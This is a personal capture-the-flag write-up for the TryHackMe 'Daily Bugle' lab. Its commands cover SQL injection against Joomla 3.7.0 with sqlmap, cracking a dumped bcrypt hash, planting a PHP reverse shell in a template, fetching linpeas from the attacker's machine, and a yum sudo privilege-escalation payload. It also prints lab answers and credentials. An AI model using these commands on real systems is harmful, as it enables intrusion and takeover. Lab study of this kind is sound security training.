 # Daily Bugle [TryHackMe]

<sub>_This is a raw write-up. I write these to document important things for myself to use later if I need it. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.127.134
```

Let's browse it:

```
firefox $targ3t
```
- Who robbed the bank?
__spiderman__

Let's perform an `nmap` scan and check for open ports:

```
nmap -A -Pn $targ3t -oN nmap.scan
```

We observe three open ports: `22`, `3306`, `80`, which makes it `ssh`, `mysql` and `http` respectively. Let's start with `http`. We can see it runs on `Apache/2.4.6 (CentOS) PHP/5.6.40` and the CMS seems to be `Joomla`. `nmap` found a number of paths on this website, one of which works/has content (`/administrator`). Let's put it through `gobuster` and see what it finds:

```
gobuster dir -u http://$targ3t -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.scan
```

It found a number of paths. Most of these `nmap` has already supplied, others are useless. Let's see if we can find a version of `Joomla` running on this server. Scans didn't reveal much unfortunately. I did some research online and apparently you can open `/language/en-GB/` path and check the `xml` file for version.

- What is the Joomla version?
__3.7.0__

Let's see what exploits are available for this one:

```
searchsploit Joomla 3.7.0
```

There's a text file:

```
searchsploit -m php/webapps/42033.txt
```

It details exploitation of password reset field through `sqlmap`:

```
sqlmap -u "http://10.10.127.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

A number of databases have been revealed, one of which was `mysql`. Let's find out what tables it has:

```
sqlmap -u "http://10.10.127.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D mysql --tables
```

A lot of tables, let's see if `users` has anything in it:

```
sqlmap -u "http://10.10.127.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D mysql -T tables --dump
```

The process is slow, but 10% in, it seems like this is the wrong database. I ran parallel scan to try `joomla` database:

```
sqlmap -u "http://10.10.127.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomla --tables
```

This retrieved `#__users` table:

```
sqlmap -u "http://10.10.127.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomla -T '#__users' --dump
```

4% in -- we already have four columns: `id`, `name`, `username`, `email`. I'll let both scans finish. 

7% in, another column named `password` in the `joomla` database. Looks like this is the one. 

<sub>I took a shortcut over here and enumerated the password column directly after interrupting this scan</sub>

Enumarate password column:

```
sqlmap -u "http://10.10.127.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomla -T '#__users' -C password --dump
```

We got one password hash, so there has to be one username.

```
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

Enumerate username column:

```
sqlmap -u "http://10.10.127.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomla -T '#__users' -C username --dump
```

The resulting username is `jonah`.

Let's try to crack this hash:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

The resulting password appears to be `spiderman123`. Let's try it in `ssh`:

```
ssh jonah@targ3t
```

Didn't work. Let's try it on `/administrator`. 

And we're inside `Joomla` CMS interface. I wonder if we can sneak a PHP reverse shell somewhere in here. Maybe templates.

It appears we can modify `index.php` file and save it and then just request site's homepage. I'll just paste a pentest monkey reverse shell into it.

Start netcat listener:

```
nc -lvnp 9876
```

We got the shell, and we are user `apache`. 

```
find / -perm /4000 2>/dev/null
```

The list doesn't give away anything useful in terms of `gtfobins`.

```
cat /etc/crontab
```

Nothing here.

```
sudo -l
```

We can't use sudo. Let's try `linpeas`:

```
python -m http.server 8080
```

On the victim:

```
wget http://<My IP>:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

CVEs didn't work, I didn't check everything. I realized as `apache` user I have access to `/var/www/html` and there I found I curious file `configuration.php`, which has a variable `$password` defined for user `root`:

```
nv5uz9r3ZEDzVjNu
```

Let's try to log in as root then:

```
su -
```

Looks like it's a `mysql` password:

```
mysql -u root -p mysql
show databases;
use mysql;
show tables;
select * from user;
select User, Password from user;
```

This is a password hash for user root, but I can't crack it for the life of me having tried many things. Instead I'll go back to the `configuration.php` password and try to use it for `jjameson` user.

Which... worked. For some reason.

```
cat /home/jjameson/user.txt
```

This user can run `yum` with sudo. There's a command sequence on `gtfobins`, that servers this purpose

So on a host machine:

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Hit enter. This did the trick:

```
cat /root/root.txt
```
